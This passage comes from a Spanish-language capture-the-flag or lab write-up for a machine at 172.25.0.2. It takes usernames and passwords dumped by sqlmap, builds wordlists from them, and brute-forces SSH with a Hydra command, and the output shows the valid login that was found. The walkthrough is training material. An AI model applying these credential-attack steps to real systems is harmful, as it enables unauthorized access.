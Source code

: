 ```
[14:29:34] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.25.0.2'

[*] ending @ 14:29:34 /2024-08-21/
```

Por lo que vemos, vemos muchos usuarios y contraseñas, por lo que nos haremos un diccionario de `usuarios` y `passwords` con `hydra` para ver cual de todos es accesible por `ssh`.

## hydra

> users.txt

```
rejetto
alice
tomitoma
whoami
pip
rufus
jazmin
rosa
mario
veryhardpassword
root
admin
```

> passwords.txt

```
password123
alicelaultramejor
passwordinhack
supersecurepasswordultra
estrella_big
colorcolorido
ultramegaverypasswordhack
unbreackroot
happypassword
admin12345password
carsisgood
badmenandwomen
```

```shell
hydra -L users.txt -P passwords.txt ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-21 14:30:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 144 login tries (l:12/p:12), ~3 tries per task
[DATA] attacking ssh://172.25.0.2:22/
[22][ssh] host: 172.25.0.2   login: rosa   password: ultramegaverypasswordhack
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-21 14:30:54
```
